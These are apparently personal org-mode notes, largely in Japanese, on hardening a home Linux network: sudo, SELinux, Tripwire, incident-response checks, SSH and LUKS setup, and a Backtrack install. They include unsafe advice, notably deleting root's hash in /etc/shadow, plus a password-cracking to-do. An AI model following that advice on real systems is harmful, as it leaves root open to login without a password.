       :END:

	   - # visudo
# 最後に追加
		 t1      ALL=(ALL) ALL
         t1 ALL=NOPASSWD: /usr/bin/ssh,/usr/bin/rsync,/sbin/shutdown,/sbin/halt,/sbin/reboot,/bin/mount
***** Security Update
      :PROPERTIES:
      :SUMMARY:  security-upgrades1
      :END:
	  - unattended-upgrades で自動アップデート
		# [[apt-get_install][apt-get install unattended-upgrades]]
		# nano /etc/apt/apt.conf.d/50unattended-upgrades
		APT::Periodic::Update-Package-Lists "1";
		APT::Periodic::Download-Upgradeable-Packages "1";
		APT::Periodic::Unattended-Upgrade "1";

***** Selinux
      :PROPERTIES:
      :SUMMARY:  selinux1
      :END:
****** mailing list
	   nasa http://nasa.gov/selinux/info/list.cfm?MenuID=41.1.1.9
	   red hat fedra http://redhat.com/mailman/listinfo/fedora-selinux-list
	   Gentoo http://www.gentoo.org/proj/en/hardened/

****** [[file:~/mydoc/linux/selinux/selinux][install_selinux]]
****** ssh port
# 確認
	   - # semanage port -l |grep ssh

# 追加
	   - # semanage port -a -t ssh_port_t -p tcp 12316

****** /etc/selinux/default/contexts/files/file_contexts
	   - # semanage fcontext -a -t var_log_t "/var/log/iptables (/.*)?"
	   - # restorecon -R /var/log/iptables
****** mylocal.te
	   module mylocal 1.3;
	   require {
	   type ifconfig_t;
	   type kernel_t;
	   type tty_device_t;
	   type mount_t;
	   type fsadm_t;
	   type iptables_t;
	   type tmpfs_t;
	   type modules_dep_t;
	   type lvm_t;
	   type hostname_t;
	   type ulogd_t;
	   type var_log_t;
	   class filesystem getattr;
	   class file { read open getattr };
	   class chr_file { read write };
	   class system module_request;
	   class dir {ioctl read write getattr lock append add_name remove_name search open };
	   class file {ioctl read write create getattr setattr lock append unlink link rename open};
	   }

#============= fsadm_t ==============
	   allow fsadm_t tty_device_t:chr_file { read write };

#============= hostname_t ==============
	   allow hostname_t tty_device_t:chr_file { read write };

#============= ifconfig_t ==============
	   allow ifconfig_t tty_device_t:chr_file { read write };

#============= iptables_t ==============
	   allow iptables_t tty_device_t:chr_file { read write };

#============= lvm_t ==============
	   allow lvm_t kernel_t:system module_request;
	   allow lvm_t tmpfs_t:filesystem getattr;

#============= mount_t ==============
	   allow mount_t modules_dep_t:file { read open getattr };

#============= ulogd_t ==============
	   allow ulogd_t var_log_t:dir {ioctl read write getattr lock append add_name remove_name search open};
	   allow ulogd_t var_log_t:file {ioctl read write create getattr setattr lock append unlink link rename open};
****** import module
	   - # checkmodule -M -m -o mylocal.mod mylocal.te
	   - # semodule_package -o mylocal.pp -m mylocal.mod
	   - # semodule -u mylocal.pp
# check module
	   - # semodule -l

***** Tripwire
****** /etc/twcfg.txt
# 設定ファイル
	   - # orig twcfg.txt

# command after config
	   - # /usr/sbin/twadmin -m F -c tw.cfg -S site.key /etc/tripwire/twcfg.txt

# check config
	   - # /usr/sbin/twadmin -m f -c tw.cfg


# 監査対象のディレクトリでファイルの追加・削除などがあると、
# ファイルとディレクトリの変更を両方検知してしまうのを防ぐ
		 LOOSEDIRECTORYCHECKING =true
# Reportlevel
		 REPORTLEVEL = 4
# Email level
		 EMAILREPORTLEVEL = 4

****** /etc/twpol.txt
	   - # orig twpol.txt
# make policy
	   - # /usr/sbin/twadmin -m P -S site.key twpol.txt
# check policy
	   - # /usr/sbin/twadmin -m p -c tw.cfg -p tw.pol
****** create database
	   - # /usr/sbin/tripwire -m i
****** check
	   - # /usr/sbin/tripwire -m c
****** update database
	   - # /usr/sbin/tripwire -m u -c tw.cfg -p tw.pol -r <report_file>
***** chattr/lsattr
# kernel 2.6 から追加されたコマンド
# 現時点 2011 年 7 月 3 日では c,s,u オプションは ext2,ext3 には追加されていない。
****** chattr +a <logfile or historyfile>
	   - chattr +a
		 /var/log/apt/* /var/log/aptitude

****** chattr +i <File>
	   - chattr +i /bin/login
	   - chattr +iu ~/.ssh/authorized_keys
	   - chattr +iu ~/.ssh/kagi
	   - chattr +i  ~/etc/ssh/sshd_config
	   - chattr +i  /etc/network/interfaces

***** log 監査
**** emergency
	 侵入事後対策
	 - 検知
	 - コマンドファイルの hash を記録しておくなどする (保留)
	 - 緊急時用に重要コマンドを隔離保存 (保留)
	 - trace
	 - debsums でコマンドの MD5sum の検証。
	   script 作成。
	 - 本当に不正アクセスを受けているかどうか確認
	 - 対策の優先順位、対処の基準を決める
	   ネットワークケーブルを抜く基準
	   サービスの停止の基準
	   システム再構築の基準
	 - 対応手順
	   (cf. 不正アクセス調査ガイド - インシデント対応手順 - O'Reilly )
  1. インシデント情報の受信
     問題を受け付けるメールアドレス、電話、 FAX の用意
  2. 記録
     問題の記録、発生時間、対処、等
  3. 事実確認
  4. 重要度決定
     ここでサービスの停止、ケーブルの引き抜きの必要性を確認。
  5. 復旧方法の検討と手順の確認
  6. 作業開始
  7. 完了の確認
     復旧後サービスやデータが掛けていたり余計なサービスが
     開始されている場合がある。
     手順をあらかじめ決めておきテスト。
     pentest
	 8 ．原因究明 & 対策
     ポリシー等の見直し
	 - 不正アクセスの被害を受けた時点でそのコンピューターの寿命は尽きる。
	   不正アクセス者の取った行動をすべて把握できるか？
	   コンピューターを再構築しなければ安全ではない。

	 - port のオーナープロセスを調べる
	   # lsof -i
	   # netstat -p

***** 被害届け先 list
****** 日本国内
	   - [[http:www.jpcert.or.jp/][コンピューター緊急対応センター (JPCERT/CC)]]
	   - [[http:www.ipa.go.jp/][情報処理復興事業協会 (IPA)]]
	   - [[http://www.npa.go.jp/cyber/soudan.htm][都道府県警察本部のサイバー犯罪相談窓口等一覧]]
	   - [[http://www.npa.go.jp/cybersafety/][警察庁 インターネット安全・安心相談]]


	   - [[http:www.internethotline.jp][インターネット ホットラインセンター]]
****** 各国

***** 被害調査依頼先
***** 侵入調査
	  - script コマンド
	  - prompt に時刻を表示させてターミナルのログを取ると
		後に他のログとの整合性の確認に役に立つ。
	  - system の時計が正確であることを確認
	  - root でログインしない。
		侵入者にさとられログなどを強引に削除される恐れがある。
****** command file の用意
	   ls dir find cp mv cat strings w who last lastlog ps
	   su netstat lsof ifconfig lsmod insmod md5sum tail
****** rootkit 検出
	   - kstat lkm-rootkit を検出
	   - alamo-0.1a.targz lkm-rootkit を検出
	   - chkrootkit システムに仕掛けられた rootkit を検出
****** 手順
	   - PATH の確認
	   - コマンドファイルの整合性の確認
	   - ログイン記録を確認
		 w, who コマンド
		 last, lastlog コマンド
	   - network 状況確認
		 netstat -anA inet
	   - process の確認
		 /safe/ps auxwww
		 /safe/lsof
	   - インターフェースの確認
		 /safe/ifconfig -a
		 PROMISC と表示されていたらスニッファが仕掛けられてる可能性がある。
	   - su で root になる
  - (ハイフン) オプションは使わない。
	root の.bashrc などでログイン時にシステムを削除するように script が
	書かれている可能性がある。
  - cat /etc/passwd
  - システムファイルの整合性のチェック
	file
	# /safe/debsums <package>
	# /safe/rpm -Vf <file>
	# /safe/rpm -V <package>

	all
	# /safe/debsums -a
	# /safe/rpm -Va
	正常時に s オプションを付けた結果をファイルに保存して後で比較すると良い


	あるファイルがどのパッケージに含まれるか調べる
	# dpkg -S <file>
	# rpm -qf <file>

	手動で見るファイル
	/etc/inittab
	/etc/inetd.conf
	/etc/crontab
	/etc/cron.*
	/etc/rc.d/
	/etc/sysconfig/
	/etc/passwd
	/etc/shadow
	/etc/fstab
	/etc/resolv.conf
	/etc/syslog.conf

  - ファイル検索
	/safe/find / -name "..*" -ls
	/safe/find / -name ".*" -ls

	SUID, SGID
	/safe/find / -type f \( -perm -4000 -o -perm -2000 \) -ls

	所有者なし
	/safe/find / -nouser -ls

	root ユーザー, root グループ 所有
	/safe/find / -user root -ls
	/safe/find / -group root -ls

	n 日前に作成、変更されたファイル
	/safe/find / -ctime <n> -ls
	/safe/find / -mtime <n> -ls
****** log
	   message
	   dmesg
	   boot.log   モジュールやデバイスが接続されていないか確認。
	   wtmp
	   utmp

******* 手順
		chkrootkit
		chkwtmp
		chklastlog -l /var/log/lastlog -f /var/log/wtmp

**** check list
	 - [ ] マシーンルームへ立ち入らせない。
	 - [ ] [[鍵付きケース][ケースに鍵を掛ける]] BIOS 初期化対策 hdd アクセス禁止

	 - disable booting from CD, floppy, usb, and other
	 - Enable password

**** tmp
***** 事前対策
****** 攻撃/ 侵入行為
	   - パケットのフィルタリングを行い、不要なネットワークとは通信しない
	   - ユーザーアカウントやパスワードの管理は確実に行う
	   - ログを収集し、毎日チェックする。
	   - システムの整合性を毎日チェックする。
	   - バックアップを毎日行う
****** ログの改竄
	   - ログはリモートログサーバーに転送するのがよい
		 ローカルで削除されてもリモートなら削除、改竄される可能性が低い
		 NTP で時刻の同期をしっかり行う。
****** コマンドの改竄
	   - 重要なコマンドは CD,USB などに保存しておく。
	   - tripwire などで整合性を確認。
****** バックドアの設置
	   - tripwire などで整合性を確認。
	   - firewall で遮断
****** カーネルレベルでの改竄
****** ネットワークの盗聴
****** 踏み台による他のコンピュータへの攻撃
	   - ルーターなどで 23 番 port などを遮断。
****** その他
*** Service
**** SSH
***** authorized_keys
	  - # chmod 600 authorized_keys
		ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApwapkeWLR+HDdYY3lARZScKOP8VJx8+jaQmoiiYJ4DaTRaNDXomEF2Q18/HLHe5ZFrhFNgIfcHkWrz27PYsxcgZfleqp/Qy7D/f1uLOEDNhpSu5AnNq/sbpHoQI/5XM05cOvDAG6PaPuBHZbJ2mZM1+ohZIUCySsCD+Lr7mE15+Q7dO/7Nr8MXuGBQUN63h3lGraE6q0Mf+MGf8issFD6tthSd2B3ty47BrZFPFCxr8vy4/N1aBVUwZ7+ZY9KJ7fI678Ak+fTq8QnAhAjEP73+WIKAGGcNsSJ/o3n0pRt3+7mZofVCqbpcqEJmxUKbqyinxOd01rsIqFrSZ1XKswAQ== root@localhost.localdomain

***** 設定
****** sshd_config
	   - Changing the Port (anti bruteforce from bot)
		 port 12316
	   - Disabling Password Authetication
	   - Disabling root login
	   - ChallengeResponseAuthentication no
	   - Protocol 2 only

	   - Allowusers t1
	   - X11Forwarding が必要でなければ無効
	   - sshguard
	   - Maxstartups  開始数:確率:最大数
		 ex..              2:70:5
		 認証されていない接続を 2 つまで受け付け、これを超えると 70%の確率で拒否し、 5 つを超えると全て拒否する。
	   - Cipher aes256-ctr
	   - RSAAuthentication no
****** ~/.ssh/config
	   Host ro
       User root
       Port 12317
       HostName 192.168.1.1
       IdentityFile ~/.ssh/kagi

	   Host home
       User home
       Port 12316
       HostName 192.168.1.122
       IdentityFile ~/.ssh/kagi

	   Host ki
       User t1
       Port 12316
       HostName 192.168.1.123
       IdentityFile ~/.ssh/kagi

	   Host ni
       User root
       Port 22
       IdentityFile ~/.ssh/kagi

	   Host pa
       Port 12316
       HostName 192.168.1.111
       IdentityFile ~/.ssh/kagi

	   Host pa2
       HostName 192.168.1.112
       Port 12316
       IdentityFile ~/.ssh/kagi

	   Host pa3
       HostName 192.168.1.124
       Port 12316
       User t1
       IdentityFile ~/.ssh/kagi

	   Host *
       ControlMaster auto
       ControlPath   /tmp/%r@%h:%p
       ServerAliveInterval 60
****** tmp
# Package generated configuration file
# See the sshd_config (5) manpage for details

# What ports, IPs and protocols we listen for
#Port 22
	   Port 12316
# Use these options to restrict which interfaces/protocols sshd will bind to
#ListenAddress ::
#ListenAddress 0.0.0.0
	   Protocol 2
# HostKeys for protocol version 2
	   HostKey /etc/ssh/ssh_host_rsa_key
	   HostKey /etc/ssh/ssh_host_dsa_key
#Privilege Separation is turned on for security
	   UsePrivilegeSeparation yes

# Lifetime and size of ephemeral version 1 server key
	   KeyRegenerationInterval 3600
	   ServerKeyBits 768

# Logging
	   SyslogFacility AUTH
	   LogLevel INFO

# Authentication:
	   LoginGraceTime 120
	   PermitRootLogin no
	   StrictModes yes

	   RSAAuthentication yes
	   PubkeyAuthentication yes
	   AuthorizedKeysFile	%h/.ssh/authorized_keys

# Don't read the user's ~/.rhosts and ~/.shosts files
	   IgnoreRhosts yes
# For this to work you will also need host keys in /etc/ssh_known_hosts
	   RhostsRSAAuthentication no
# similar for protocol version 2
	   HostbasedAuthentication no
# Uncomment if you don't trust ~/.ssh/known_hosts for RhostsRSAAuthentication
#IgnoreUserKnownHosts yes

# To enable empty passwords, change to yes (NOT RECOMMENDED)
	   PermitEmptyPasswords no

# Change to yes to enable challenge-response passwords (beware issues with
# some PAM modules and threads)
	   ChallengeResponseAuthentication no

# Change to no to disable tunnelled clear text passwords
	   PasswordAuthentication no

# Kerberos options
#KerberosAuthentication no
#KerberosGetAFSToken no
#KerberosOrLocalPasswd yes
#KerberosTicketCleanup yes

# GSSAPI options
#GSSAPIAuthentication no
#GSSAPICleanupCredentials yes

	   X11Forwarding yes
	   X11DisplayOffset 10
	   PrintMotd no
	   PrintLastLog yes
	   TCPKeepAlive yes
#UseLogin no

#MaxStartups 10:30:60
#Banner /etc/issue.net

# Allow client to pass locale environment variables
	   AcceptEnv LANG LC_*

	   Subsystem sftp /usr/lib/openssh/sftp-server

# Set this to 'yes' to enable PAM authentication, account processing,
# and session processing. If this is enabled, PAM authentication will
# be allowed through the ChallengeResponseAuthentication and
# PasswordAuthentication.  Depending on your PAM configuration,
# PAM authentication via ChallengeResponseAuthentication may bypass
# the setting of "PermitRootLogin without-password".
# If you just want the PAM account and session checks to run without
# PAM authentication, then enable this but set PasswordAuthentication
# and ChallengeResponseAuthentication to 'no'.
	   UsePAM yes

# disable ipv6
	   AddressFamily inet

***** security
# aptitude install sshguard
	  - パスワード認証の場合
		30 分以内にログインに５回連続ミスすると後 30 分間ログイン禁止。
		解除用パケットで１０分の制限解除オプション
		1 回に 6 分必要と考え 10000 回の認証アクセスで 60000 分かかる。
		60000 / 60  =  1000 (1000 時間)
		1000 / 24 = 41 (41 日)
		10000 通りの組み合わせで最低 41 日かかる。


	  - 100 回連続で認証に失敗したら拒否リストに追加。

	  - 公開鍵認証の場合
		パスワード認証を無効にし、パスワードで試みてきた時点で拒否リスト追加。
		解除用パケットで解除。

	  - 拒否リストに追加した IP について自動で調べる script を書く。
		whois,location,逆引きドメイン, etc..

	  - Tunneling
		外出先で通信を暗号化した状態でインターネットできるようにする。

**** repository
	 - ログイン時に zsh / emacs を update
	 - ログアウト時に、 zsh / emacs を update
***** backup & restore
	  - # svnadmin dump </path/repository> > svnbackup-`date +%Y%m%d`
	  - # svnadmin create </path/to/new_repository>
	  - # svnadmin load </path/to/new_repository> < svnbackup
		(cf. 2011 年 8 月 16 日 [[http://pentan.info/server/s_export.html][ SVN リポジトリを別のサーバに移行する方法]])

**** early boot decrypt disk (dropbear)
# copy authorized_keys
	 # cp authorized_keys /etc/initramfs-tools/root/.ssh/
	 # apt-get install dropbear

	 - static ip
	   # nano /etc/initramfs-tools/initramfs.conf
# edit "DIVICE="
# add "IP="
	   DEVICE=eth0
#  <ip_address>:<>:<gateway> : <netmask> : <hostname> : <autoconf>
	   IP=192.168.1.123::192.168.1.1:255.255.255.0:ki:eth0:off

	   (cf. [[http://www.eugenemdavis.com/set-static-ip-initramfs][Set a Static IP in Initramfs]])

	   - dropbear port & disallow password login
# edit /usr/share/initramfs-tools/script/init-premount/dropbear
		 # nano /usr/share/initramfs-tools/scripts/init-premount/dropbear
# bottom line
		 /sbin/dropbear -r /root/.ssh/id_rsa.dropbear -g -s -j -k -p 12316

		 - # update-initramfs -u
		   # update-grub

***** decrypt command
	  - # /lib/cryptsetup/askpass /bin/sh > /lib/cryptsetup/passfifo
		or # echo -n "your password" > /lib/cryptsetup/passfifo

**** sshfs
***** edit on user
	  - [[add_group][add group]]
**** SWare iron
	 - # apt-get install libXss1 libnss3-1d
	   # wget http://www.srware.net/downloads/iron.deb
	   # dpkg -i iron.deb
**** X
***** xfce
	  - # apt-get install xorg
		# apt-get install xfce4
		# apt-get install mousepad
***** mozc
	  (cf.. http://code.google.com/p/mozc/wiki/LinuxBuildInstructions)
	  - # apt-get install ca-certificates gconf2 ibus ibus-gtk ibus-qt4 im-switch libblas3gf libcurl3 libffi5 libgfortran3 libibus-qt1 libibus2 libicu44 libidn11 liblapack3gf libprotobuf6 libqt4-dbus libqt4-designer libqt4-network libqt4-qt3support libqt4-script libqt4-sql libqt4-xml libqtcore4 libqtgui4 librsvg2-common libssh2-1 libzinnia0 openssl psmisc python-cairo python-dbus python-glade2 python-gobject python-gtk2 python-ibus python-notify python-numpy python-xdg qt4-qtconfig tegaki-zinnia-japanese zenity
		# apt-get install g++ python libibus-1.0-dev libcurl4-openssl-dev libssl-dev zlib1g-dev libdbus-1-dev libglib2.0-dev libprotobuf-dev protobuf-compiler libgtest-dev subversion devscripts debhelper libqt4-dev scim libscim-dev libzinnia-dev tegaki-zinnia-japanese fakeroot
		# mkdir -p /tmp/mozc && cd /tmp/mozc
		# svn co http://mozc.googlecode.com/svn/trunk/src
		# apt-get install gyp
		# cd src
		# debuild -b -uc -us
		# cd ..
		# dpkg -i ibus-mozc*.deb mozc-server*.deb mozc-utils-gui*.deb
***** bluetooth
	  - # apt-get install bluez-utils bluez-compat
		# hcitool scan
		# hidd --search
***** flash
	  - # apt-get install flashplugin-nonfree
		# ln -s /usr/lib/flashplugin-nonfree/libflashplayer.so /usr/share/iron/flashplugin-nonfree/libflashplayer.so
*** Backup
**** policy
***** バックアップとは
	  定期的にデータを複製、保管してトラブル発生時に復旧できるように備えること

***** なぜバックアップをとるか
	  - 操作ミスによるデータ損失
	  - HDD の劣化による破損
	  - 災害による物理的損傷
***** バックアップ対象
***** バックアップメディア
***** バックアップソフト
***** バックアップ手法とサイクル
**** RAID1
	 - HDD の 1 つが壊れても動くようにする。
	   壊れた場合はメールで通達。
	   メールの優先度を高にして送信。
**** recorery
# on ni system
	 - # cryptsetup --key-file=/etc/kagi/backupfskey luksOpen /dev/sda5 backupfs_crypt
	   # mount -t ext3 /dev/mapper/backupfs_crypt /backup

*** init
**** [0/1]install
	 - [ ] [[partition1][partition]]

**** [26/30]after install
	 - [X]  [[change_locale1][change locale]]
	 - [X]  [[etc-apt-apt.conf][edit apt.conf]]
	 - [X]  [[aptitude_purge][aptitude purge]]
	 - [X]  [[apt-get_install][apt-get install]]
	 - [X]  [[change_login_shell1][change login shell]]
	 - [ ]  [[etc-default-grub.cfg][edit /etc/default/grub]]
	 - [ ]  [[/etc/grub.d1][grub の画面を標準に戻す]]
	 - [-]  [[GRUB password][Grub に password]]
	 - [X]  [[usb_mount][一般ユーザーで usb mount]]
	 - [X]  [[etc-inittab][edit inittab]]
	 - [X]  [[etc-default-rcS1][起動時、/etc/init.d/ の並列処理化]]
	 - [X]  [[etc-login.defs][edit /etc-login.defsetc/login.defs]]
	 - [X]  [[su1][su コマンドの制限]]
	 - [X]  [[sudo1][sudo ユーザー制限]]
	 - [X]  [[etc-ntp.conf][edit ntp.conf]]
	 - [X]  [[ntp-logrotate][logrotate ntp log]]
	 - [X]  [[disable_ipv61][disable ipv6]]
	 - [X]  [[etc-hosts][edit /etc/hosts]]
# log
	 - [X]  rm /etc/logrotate.d/{apt,aptitude,dpkg}
	 - [X]  [[syslog-summary1][edit /etc/logrotate.d/rsyslog]]
	 - [X]  [[etc-logrotate.d-auth][edit /etc/logrotate.d/auth]]
	 - [X]  [[etc-default-bootlogd][edit /etc/default/bootlogd]]

	 - [X]  [[remove-file-directory][remove file directory]]
	 - [X]  [[remove-login-message][remove login message]]
	 - [X]  [[security-upgrades1][edit /etc/apt/apt.conf.d/50unattended-upgrades]]
	 - [X]  mkdir /var/log/iptables && touch /var/log/iptables/iptables.log
	 - [X]  [[iptables-up1][/etc/network/if-up.d/iptables]]
	 - [X]  [[ulogd1][ulogd]]
	 - [X]  [[sysctl1][sysctl]]


	 - [ ]  [[selinux1][install selinux]]
*** TODO
	- [ ] ssh がつながらなくなった時の為の予備 remote
	- 文字コード対策
	- [ ] 起動に失敗した場合 safemode で再起動。若しくは以前のリビジョンに戻る。
	- [ ] 起動通知としてメールを送信
	- [ ] iptables 国別 DROP
	- no response arp broadcast
	- mail
	- [ ] password 認証に時間制限を付ける。
**** rpc.conf
**** libpam-shield
**** IPSEC
**** overwall
**** WOL
	 - できれば BIOS を弄りたい。
	   パケット次第でデュアルブートできるように。
	   起動に失敗した場合、保守用の OS でメンテナンスをする。
**** Remote shutdown
	 - kernel レベルで外部からワンパケットで shutdown/reboot できるようにする。
	   中途半端な起動になってしまった場合を考えて。
	   できるなら BIOS レベルとカーネルレベル兼用が良い。
	   BIOS は強制終了と reboot
	   kernel は強制終了と shutdown/reboot
**** server 運用記録
**** Exchange Server
***** Sendmail
***** Calender
***** 連絡先

***** open-xchange server
	  - # nano /etc/apt/sources.list
		deb http://ftp.riken.jp/Linux/debian/debian/ squeeze main non-free
		deb-src http://ftp.riken.jp/Linux/debian/debian/ squeeze main non-free

		deb http://security.debian.org/ squeeze/updates main non-free
		deb-src http://security.debian.org/ squeeze/updates main non-free

		deb http://software.open-xchange.com/OX6/stable/DebianSqueeze/ /

	  - # wget http://software.open-xchange.com/oxbuildkey.pub -O - | apt-key add -
		# apt-key list

	  - # apt-get update

**** Network Boot Server (ターミナルサーバー LTSP)
	 - Mirroring しているクライアントを外部で起動
	   もしくは、 USB 用を起動。
	   すなわち、クライアントをシンクライアントとして使う。

**** 監視カメラ配備 (優先度:低)
	 - 外部からも見れるようにする。
	 - 映像を 1 週間ほど保存しておく。

**** GPS
	 - 移動を記録＆距離計算＆時間計算

**** 安定維持の為の監視
	 - 温度を監視 過度な温度にならない為に CPU を制御。熱くなりすぎたらメールで異常を送信。
	 - ハードディスクの健康監視
	   smartd

**** Pentest
***** Rainbow Crack
	  - Install rainbow crack soft
	  - Get Rainbow Table
***** Password Crack
**** ブラウザの閲覧履歴をサーバーに保存。
	 - あとで検索しやすいようにする。

**** Mirroring
	 - クライアント PC をミラーリングする。
	   仮想環境になると思う。

**** ACLs
**** IT 関係の法律をすべて列挙
	 判例も列挙する。

     [[file:~/Doc/architecture/server::*Security]]
     <2011-07-26 Tue>

**** gathering white_paper
	 gather another country's white_paper

     [[file:~/mydoc/architecture/server::*Infomation%20Gathering][file:~/mydoc/architecture/server::*Infomation Gathering]]
     <2011-08-02 Tue>

**** ntp.conf restrict script
	 ip address is offen chenged.
	 generate current ip address by like nslookup.
	 todo write script

     [[file:~/Doc/architecture/server::*ntpd]]
     <2011-07-17 Sun>
** NI
   [usb:ni (knight)]

*** USB Device
	- Express DUO USB 3.0 ST3U32EDB [32GB]]
	  型番  : ST3U32EDB
	  容量  : 32GB
	  (cf. http://www.supertalent.com/products/stt_usb_detail.php%3Ftype%3DExpress%20DUO][http://www.supertalent.com/products/stt_usb_detail.php?type=Express%20DUO )
	  (cf. [[file:/data/archive/reference/manual/Express_DUO_USB_3.0_ST3U32EDB_%5B32GB%5D.pdf][data_sheet.pdf]])

	- usb 自体を暗号化。
      起動時に認証を求める。
      ログインは自動。
	  remote 接続時の認証に注意。

*** Install
	(cf. http://www.infosecramblings.com/backtrack/backtrack-5-bootable-usb-thumb-drive-with-full-disk-encryption/)

	- # /etc/init.d/networking start
	  # startx
***** Partition
	  32GB
	  - /boot   200M   ext3
	  - swap      1G
	  - /        MAX   ext3

****** # fdisk /dev/sdxx
# delete existing partitions. There may be more than one.

	   Command (m for help): d
	   Partition number (1-4): 1

# create the first partition

	   Command (m for help): n
	   Command action
	   e    extended
	   p    primary partition (1-4)
	   p
	   Partition number (1-4): 1
	   First cylinder (<n>-<n>, default 1): <enter>
	   Using default value <n>
	   Last cylinder, +cylinders or +size{K,M,G} (<n>-<n>, default
	   2022): +200M

# create partition for swap
	   Command (m for help): n
	   Command action
	   e    extended
	   p    primary partition (1-4)
	   p
	   Partition number (1-4): 2
	   First cylinder (<n>-<n>, default <n>): <enter>
	   Using default value <n>
	   Last cylinder, +cylinders or +size{K,M,G} (<n>-<n>, default
	   <n>): +1G

#create the extended partition
	   Command (m for help): n
	   Command action
	   e    extended
	   p    primary partition (1-4)
	   e
	   Partition number (1-4): 3
	   First cylinder (<n>-<n>, default <n>): <enter>
	   Using default value <n>
	   Last cylinder, +cylinders or +size{K,M,G} (<n>-<n>, default
	   <n>): <enter>
	   Using default value <n>

# Create the logical partition.

	   Command (m for help): n
	   Command action
	   l     logical (5 or over)
	   p    primary partition (1-4)
	   l
	   First cylinder (<n>-<n>, default <n>): <enter>
	   Using default value <n>
	   Last cylinder, +cylinders or +size{K,M,G} (<n>-<n>, default
	   <n>): <enter>
	   Using default value <n>

# Setting the partition type for the first partition to ext3

	   Command (m for help): t
	   Partition number (1-4): 1
	   Hex code (type L to list codes): 83

# Setting the first partition active

	   Command (m for help): a
	   Partition number (1-4): 1

	   Command (m for help): w

***** Prepare
# Do not "apt-get update && apt-get install hashalot"
	  - # apt-get update
		# apt-get install hashalot
***** crypt
	  - # dd if=/dev/urandom of=/dev/sda5
		# cryptsetup --cipher "aes-cbc-essiv:sha256" --key-size 256 --verify-passphrase luksFormat /dev/sda5
		# cryptsetup luksOpen /dev/sda5 btcrypt
***** make file system
	  - # mkfs.ext4 /dev/mapper/btcrypt

***** start install script
# chose /dev/sda1 /boot
# chose /dev/mapper/btcrypt /
# ignore swap error
***** check UUID
	  - # blkid /dev/sda5
# copy UUID

***** chroot
	  - # mkdir /mnt/bt
		# mount /dev/mapper/btcrypt /mnt/bt
		# mount /dev/sda1 /mnt/bt/boot
		# chroot /mnt/bt
		# mount -t proc proc /proc
		# mount -t sysfs sys /sys

      # Do not "apt-get update && apt-get install hashalot"
	  - # apt-get update
		# apt-get install hashalot

	  - # nano /etc/crypttab
		btcrypt      /dev/disk/by-uuid/<uuid from above>  none  luks

	  - # cat /etc/fstab
		/dev/mapper/btcrypt / ext4  defaults 0 1

	  - # update-initramfs -u

***** make crypt swap after reboot
	  (cf. [[http://oldsite.debianhelp.org/book/export/html/1116][Booting Cryptsetup-LUKS Encrypted boot from USB Stick]])

	  - # dd if=/dev/urandom of=/dev/sda2
		# mkdir /etc/kagi
		# hashalot -s whateversaltphraseyouwanttouse -x sha256 > /etc/kagi/swapkey
		# chmod 400 /etc/kagi/swapkey
		# cryptsetup --verbose --cipher aes-cbc-essiv:sha256 --key-size 256 --verify-passphrase luksFormat /dev/sda2
		# blkid /dev/sda2
# copy uuid
		# cryptsetup create swap /dev/disk/by-uuid/<paste uuid> -d /etc/kagi/swapkey -c  aes-cbc-essiv:sha256 -h sha512
		# mkswap /dev/mapper/swap

# edit /etc/crypttab
		# nano /etc/crypttab
# add for crypt swap
		swap /dev/disk/by-uuid/<paste uuid> /etc/kagi/swapkey cipher=aes-cbc-essiv:sha256,hash-sha512,swap

# edit /etc/fstab before /dev/cdrom line
		# nano /etc/fstab
		/dev/mapper/swap none swap sw 0 0

*** Boot
**** grub
- wget -c https://launchpad.net/grub-customizer/3.0/3.0.4/+download/grub-customizer_3.0.4.tar.gz
  tar -xf grub-customizer_3.0.4.tar.gz
  cmake .
  make
  make install

**** /etc/rc?.d/
	 - # mv /etc/rc2.d/S20tor /etc/rc2.d/K20tor
	   # mv /etc/rc2.d/S20privoxy /etc/rc2.d/K20privoxy
	   # mv /etc/rc4.d/S50pulseaudio /etc/rc4.d/K80pluseaudio
	   # update-rc.d polipo disable
	   # update-rc.d dns-clean disable
	   # update-rc.d rsync disable
*** General
**** OS
	 - Backtrack 5
**** Host Name
	 - ni
	   (knight - king の ki と knight の kn が見間違いやすいので ni)
	   (cf. [[file:how_to_define_hostname][define_host_name]])
**** root パスワード無効
	 - /etc/shadow root の 2 つ目を削除

*** Setting Files

*** action
**** connect network
	 [[file:~/mydoc/linux/etc/connect_network.org][connect_network]]

*** tmp
	"Wrong number of arguments: called-interactively-p, 1"
	add-apt-repository ppa:ubuntu-elisp/ppa
	apt-get update
	apt-get upgrade

** QU
   [desktop:qu (queen)]

*** Device
## PC 内部を弄る時は静電気対策で水で 30 秒間洗う。
## 自分の体をアースさせておく。
## 静電気防止手袋を使う。
**** PC ケース
- PC ケースは保守しやすいものを考慮
  具体的に HDD が取り出しやすいこと、
  コードが整理しやすい配置であること、
  ケースが開けやすいこと、
  掃除がしやすいこと。
- 鍵がかけられる。
- 埃対策の為にファンレスの物を検討。
*** Boot
**** BIOS
- CD/FDD/USB からの起動を禁止。
- Password 設定。
**** Bootloader
	 - /boot/grub/grub.cfg
**** runlevel
**** autologin
$ mkdir /etc/systemd/system/getty@tty1.service.d

/etc/systemd/system/getty@tty1.service.d/autologin.conf
[Service]
ExecStart=
ExecStart=-/sbin/agetty --autologin *username* --noclear %I 38400 linux

*** General
**** OS
- Distribution: Linux Debian 6 sqeeze
- kernel:       linux 2.6 i686
****** module
- expert install で汎用化を選択
**** Partition
	 :PROPERTIES:
	 :SUMMARY:  partition2
	 :END:

## デスクトップ用途で使う。
## /tmp, /home, /var/tmp などの一般ユーザーが書き込める領域は
## "/" のリソースを圧迫する可能性があるので分けた方がよい。

## RAID1
## System 30G

## アクセスの多いパーティションはディスクの先頭 (外側) に配置
## パーティションは作った順番で外側から配置される。 (cf.2011 年 7 月 15 日 FreeBSD ハンドブック [[http://www.freebsd.org/doc/ja/books/nandbook/configtuning-initial.html][初期設定]]) (cf. 2011 年 7 月 15 日 [[http://codecraft.jp/tips/index.php?Linux%2F%A5%D1%A1%BC%A5%C6%A5%A3%A5%B7%A5%E7%A5%F3%CA%AC%B3%E4%CE%E3][ Linux/ パーティション分割例 - CodeCraft tips]])

[[file:/data/archive/reference/etc/partition_info_for_server/partition_architecture_memo.pdf][partition_memo.pdf]]

Western digital: 500G  | Win | Windata | server | data |
Hitachi        : 500G  |            Raid 1             |
Western digital: 250G  | winB | temp |  swap  | backup |

- /boot           200M    ext3
# server partition 30G LVM
- /var              6G    ext3   defaults,nodev
- /                 4G    ext3
- /usr              6G    ext3   defaults,nodev
